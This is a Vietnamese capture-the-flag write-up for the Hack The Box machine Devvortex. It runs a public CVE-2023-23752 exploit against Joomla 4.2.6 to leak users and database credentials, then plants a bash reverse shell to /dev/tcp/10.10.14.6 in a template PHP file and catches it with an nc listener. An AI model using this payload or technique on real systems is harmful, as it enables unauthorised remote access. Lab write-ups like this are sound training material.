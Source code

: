 Tìm kiếm các lỗ hổng Joomla phiên bản 4.2.6, tôi tìm thấy [CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752), thử git clone nó về và chạy

```python
┌──(root㉿kali)-[/home/neo]
└─# ruby exploit.rb http://dev.devvortex.htb 
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: ******************
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

Vậy là tôi vừa biết được trong server có 2 user là `lewis` và `logan`, vừa có thông tin đăng nhập của `lewis`

Truy cập *http://dev.devvortex.htb/administrator/* để đăng nhập với user `lewis`

Để tạo được RCE, có thể thêm reverse shell vào một trong các file php của template

**System -> Site templates -> Cassiopeia Details and Files**, chọn một trong số các file có sẵn và sửa nội dung thành reverse shell của mình. Tôi chọn shell bên dưới:

`exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'");`

Bật nc: `nc -lnvp 9001`

Lưu file và truy cập đường dẫn đến file vừa thay đổi 

![3.png](/assets/img/2024-03-10-HTB-Devvortex/3.jpg)
